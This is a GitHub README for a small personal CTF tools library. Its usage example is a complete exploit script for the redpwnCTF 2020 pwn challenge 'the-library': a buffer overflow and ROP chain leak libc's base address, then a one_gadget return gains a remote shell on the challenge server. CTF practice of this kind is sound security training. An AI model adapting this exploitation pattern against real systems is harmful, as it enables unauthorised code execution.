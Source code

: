 # CTF tools for me
[![CI](https://github.com/d2verb/ctftools/workflows/CI/badge.svg)](https://github.com/d2verb/ctftools/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/ctftools/blob/master/LICENSE)

## How to install
TODO

## Example
This is an example to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from ctftools.pwn import elf, remote
from ctftools.util.pack import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License